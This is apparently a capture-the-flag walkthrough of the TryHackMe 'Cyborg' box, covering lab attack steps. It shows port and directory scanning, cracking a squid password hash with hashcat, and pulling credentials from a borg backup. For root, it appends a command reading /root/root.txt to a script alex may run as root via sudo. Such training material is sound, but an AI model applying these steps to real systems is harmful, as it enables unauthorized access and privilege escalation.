


# THM | Cyborg

A box involving encrypted archives, source code analysis and more.


------

[TOC]


### Namp scan :

```sh
└──╼ $nmap -vv -A 10.10.222.225
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-25 17:20 +01
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:20, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:20, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:20, 0.00s elapsed
Initiating Ping Scan at 17:20
Scanning 10.10.222.225 [2 ports]
Completed Ping Scan at 17:20, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:20
Completed Parallel DNS resolution of 1 host. at 17:20, 0.07s elapsed
Initiating Connect Scan at 17:20
Scanning 10.10.222.225 [1000 ports]
Discovered open port 80/tcp on 10.10.222.225
Discovered open port 22/tcp on 10.10.222.225
Completed Connect Scan at 17:20, 18.36s elapsed (1000 total ports)
Initiating Service scan at 17:20
Scanning 2 services on 10.10.222.225
Completed Service scan at 17:20, 6.57s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.222.225.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:21, 8.70s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 1.07s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
Nmap scan report for 10.10.222.225
Host is up, received syn-ack (0.24s latency).
Scanned at 2021-01-25 17:20:29 +01 for 35s
Not shown: 995 closed ports
Reason: 995 conn-refused
PORT      STATE    SERVICE   REASON      VERSION
22/tcp    open     ssh       syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtLmojJ45opVBHg89gyhjnTTwgEf8lVKKbUfVwmfqYP9gU3fWZD05rB/4p/qSoPbsGWvDUlSTUYMDcxNqaADH/nk58URDIiFMEM6dTiMa0grcKC5u4NRxOCtZGHTrZfiYLQKQkBsbmjbb5qpcuhYo/tzhVXsrr592Uph4iiUx8zhgfYhqgtehMG+UhzQRjnOBQ6GZmI4NyLQtHq7jSeu7ykqS9KEdkgwbBlGnDrC7ke1I9352lBb7jlsL/amXt2uiRrBgsmz2AuF+ylGha97t6JkueMYHih4Pgn4X0WnwrcUOrY7q9bxB1jQx6laHrExPbz+7/Na9huvDkLFkr5Soh
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBB5OB3VYSlOPJbOwXHV/je/alwaaJ8qljr3iLnKKGkwC4+PtH7IhMCAC3vim719GDimVEEGdQPbxUF6eH2QZb20=
|   256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlr5id6IfMeWb2ZC+LelPmOMm9S8ugHG2TtZ5HpFuZQ
80/tcp    open     http      syn-ack     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
1500/tcp  filtered vlsi-lm   no-response
3006/tcp  filtered deslogind no-response
16016/tcp filtered unknown   no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.51 seconds
```

1. Scan the machine, how many ports are open?                            

​	response : 2

2. What service is running on port 22?

​	response : ssh

3. What service is running on port 80?

​	response : http

### Dirsearch :

```sh
└──╼ $dirsearch -u 10.10.222.225 -e *

  _|. _ _  _  _  _ _|_    v0.4.0
 (_||| _) (/_(_|| (_| )

Extensions: * | HTTP method: GET | Threads: 20 | Wordlist size: 7140

Error Log: /home/itatshi/Desktop/tools/dirsearch/logs/errors-21-01-25_17-20-59.log

Target: http://10.10.222.225/

Output File: /home/itatshi/Desktop/tools/dirsearch/reports/10.10.222.225/_21-01-25_17-21-00.txt

[17:21:00] Starting: 
[17:21:08] 403 -  278B  - /.htaccess.bak1
[17:21:08] 403 -  278B  - /.htaccess.orig
[17:21:08] 403 -  278B  - /.htaccess.save
[17:21:08] 403 -  278B  - /.htaccess.sample
[17:21:08] 403 -  278B  - /.htaccessBAK
[17:21:09] 403 -  278B  - /.html
[17:21:09] 403 -  278B  - /.htm
[17:21:09] 403 -  278B  - /.htaccessOLD
[17:21:09] 403 -  278B  - /.htaccessOLD2
[17:21:09] 403 -  278B  - /.httr-oauth
[17:21:32] 301 -  314B  - /admin  ->  http://10.10.222.225/admin/
[17:21:33] 200 -    6KB - /admin/
[17:21:33] 200 -    6KB - /admin/?/login
[17:21:33] 403 -  278B  - /admin/.htaccess
[17:21:35] 200 -    6KB - /admin/index.html
[17:21:59] 301 -  312B  - /etc  ->  http://10.10.222.225/etc/
[17:22:06] 200 -   11KB - /index.html
[17:22:29] 403 -  278B  - /server-status
[17:22:29] 403 -  278B  - /server-status/
```

Browse to <machine-ip>/etc/ . you'll see :



go to squid/passwd .

create a file hash.txt and past the passwd hash inside it . then crack it using hashcat or john .

```sh
└──╼ $cat hash.txt 
$apr1$BpZ.Q.1m$F0****************QTTn.
└──╼ $hashcat -m 1600 hash.txt /opt/seclists/rockyou.txt 
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-8250U CPU @ 1.60GHz, 5708/5772 MB (2048 MB allocatable), 8MCU

```

we will need that password later .

Browse to http://10.10.175.120/admin/ 


go to Archive>>Download and download the tar file .

extract it and browse it 

after reading the README file , you'll know that you have to install borg .

#### Install borg 

```sh
wget https://github.com/borgbackup/borg/releases/download/1.1.15/borg-linux64
sudo cp borg-linux64 /usr/local/bin/borg
sudo chown root:root /usr/local/bin/borg
sudo chmod 755 /usr/local/bin/borg
```

let's now extract the archive_music using borg .

```sh
└──╼ $borg list final_archive/
Enter passphrase for key /home/itatshi/Desktop/THM/cyborg/final_archive: 
music_archive                        Tue, 2020-12-29 15:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
┌─[✗]─[itatshi@parrot]─[~/Desktop/THM/cyborg]
└──╼ $borg extract ./final_archive::music_archive
Enter passphrase for key /home/itatshi/Desktop/THM/cyborg/final_archive: 

```

we successfully extract it . let's go to home/alex/Documents

```sh
┌─[itatshi@parrot]─[~/Desktop/THM/cyborg/home/alex/Documents]
└──╼ $cat note.txt 
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3******3

```

we found alex password . let's ssh it now :

```sh
└──╼ $ssh alex@<machine-ip>
alex@10.10.175.120's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


27 packages can be updated.
0 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

alex@ubuntu:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
alex@ubuntu:~$ cat user.txt 

```

Boom , we got the user flag .

let's get the root flag now .

### Privilege Escalation :

```sh
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
alex@ubuntu:~$ id
uid=1000(alex) gid=1000(alex) groups=1000(alex),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)

```

we can run /etc/mp3backups/backup.sh as root :

let's use it to get the root flag .

```sh
cd /etc/mp3backups
chmod 777 backup.sh
echo "cat /root/root.txt > backed_up_files.txt" >> backup.sh
sudo ./backup.sh

```

let's now read the flag .

```sh
alex@ubuntu:/etc/mp3backups$ cat backed_up_files.txt 
flag{Th**************************053d}
alex@ubuntu:/etc/mp3backups$ 
```

Great , we found the root flag .



Happy Hacking.